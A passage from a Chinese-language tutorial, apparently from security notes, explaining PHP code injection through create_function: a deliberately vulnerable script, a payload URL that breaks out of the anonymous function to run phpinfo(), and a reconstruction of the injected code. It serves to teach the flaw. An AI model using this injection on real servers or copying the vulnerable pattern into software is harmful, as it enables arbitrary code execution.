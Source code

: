 ```
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
}
```

回车换行整理一下：

```
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);
}
phpinfo();/*
}
```

#### 案例2：

```
<?php
$c=$_GET['c'];
$lambda=create_function('$a,$b',"return (strlen($a)-strlen($b)+" . "strlen($c));");
$array=array('reall long string here,boy','this','midding lenth','larget');
usort($array,$lambda);
print_r($array);
?>
```

`payload`的构造：

```
http://localhost/test2.php?c=1));}phpinfo();/*
```

![img](http://cdn.ayusummer233.top/img/1937992-20200528135733970-253135182.png)

 

 

 还原实际的组合过程：

```
$lambda=create_function('$a,$b',"return (strlen($a)-strlen($b)+" . "strlen(1));}phpinfo();/*));");
```

匿名函数实际的执行：

```
 function ft($a,$b){
    return (strlen($a)-strlen($b)+" . "strlen(1));}phpinfo();/*));
 }
```

回车换行整理一下：

```
 function ft($a,$b){
    return (strlen($a)-strlen($b)+" . "strlen(1));
    }
    phpinfo();
    /*));
 }
```
